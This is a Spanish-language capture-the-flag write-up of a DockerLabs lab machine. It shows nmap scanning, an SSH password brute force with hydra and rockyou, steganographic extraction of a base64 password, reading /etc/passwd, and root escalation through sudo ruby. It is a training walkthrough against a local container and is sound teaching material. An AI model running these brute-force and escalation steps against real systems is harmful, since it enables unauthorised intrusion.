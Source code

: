 [[Writeups]]
#Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo de todos los puertos:

```bash 
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 22:01 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
```

Escaneamos mas profundamente los dos servicios encontrados:

```bash
❯ sudo nmap -p22,80 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 22:02 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.95 seconds
```

Vamos a ver la web:

![amorweb.png](assets/amorweb.png)

Vemos varios mensajes de ataques de phising, programas desactualziados, contraseñas débiles e incluso despidos por enviar contraseñas por correos, en esta empresa se respira amor.

Vemos que en el mensaje de despedida dicen dos nombres, Juan y Carlota, probe estos dos usuarios con el rockyou usando hydra en el ssh y carlota me dio un caso positivo:

```bash
❯ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-27 22:08:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
```

```ruby
login: carlota   password: babygirl
```

Probamos las credenciales manualmente y obtenemos acceso como carlota:

```bash
❯ ssh carlota@172.17.0.2
carlota@172.17.0.2s password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.5.0-13parrot1-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon May 27 20:29:06 2024 from 172.17.0.1
$ whoami
carlota
$ 

```

Como se puede ver, indagando por los archivos de carlota vemos que tiene una imagen.jpg en la ruta **/Desktop/fotos/vacaciones**

```bash
carlota@88f972cc934c:~$ ls
Desktop
carlota@88f972cc934c:~$ cd Desktop
carlota@88f972cc934c:~/Desktop$ ls
fotos
carlota@88f972cc934c:~/Desktop$ cd fotos
carlota@88f972cc934c:~/Desktop/fotos$ ls
vacaciones
carlota@88f972cc934c:~/Desktop/fotos$ cd vacaciones
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ ls
imagen.jpg
```

Si tenemos python en nuestra temrinal de carlota seremos capaces de pasarnos el archivo a nuestro terminal local a traves de un servidor de python:

```bash
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ python3
Python 3.12.3 (main, Apr 10 2024, 05:33:47) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> exit()
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
172.17.0.1 - - [27/May/2024 20:35:32] "GET / HTTP/1.1" 200 -
172.17.0.1 - - [27/May/2024 20:35:32] code 404, message File not found
172.17.0.1 - - [27/May/2024 20:35:32] "GET /favicon.ico HTTP/1.1" 404 -
172.17.0.1 - - [27/May/2024 20:35:36] "GET /imagen.jpg HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ 
```

Vemos que tenemos python así que creamos en la ruta base de la imagen el servidor y en el navegador ponemos la dirección con el puerto abierto:

![serveramor.png](assets/serveramor.png)

damos click a la imagen, click derecho y guardamos donde queramos, ahora vamos a ver los metadatos de dicha imagen:

```bash
#Terminal de mi equipo local con la imagen descargada:

❯ steghide --extract -sf imagen.jpg
Anotar salvoconducto: 
anot� los datos extra�dos e/"secret.txt".
❯ ls
 imagen.jpg  secret.txt
❯ cat secret.txt
ZXNsYWNhc2FkZXBpbnlwb24=
```

Parece un código cifrado en base 64, vamos a la web dCode y vemos los resultados:

![imagenbase64amor.png](assets/imagenbase64amor.png)

Obtenemos el texto:

```
eslacasadepinypon
```

Podría ser la contraseña de otro usuario, vamos a ver el etc/passwd y si hay otro usuario probamos un su con la contraseña encontrada:

```bash
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
carlota:x:1001:1001::/home/carlota:/bin/sh
oscar:x:1002:1002::/home/oscar:/bin/sh
```

Vemos que existe el usuario oscar, así que hacemos el su a oscar:

```bash
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ su oscar
Password: 
$ whoami
oscar
```

Ahora hacemos una enumeracion de permisos sudo :

```bash
$ sudo -l
Matching Defaults entries for oscar on 88f972cc934c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on 88f972cc934c:
    (ALL) NOPASSWD: /usr/bin/ruby
$
```

Vemos en gtfobins el comando para ruby :

![rubamor.png](assets/rubamor.png)

lo ponemos y obtenemos root:

![rootAmor.png](assets/rootAmor.png)
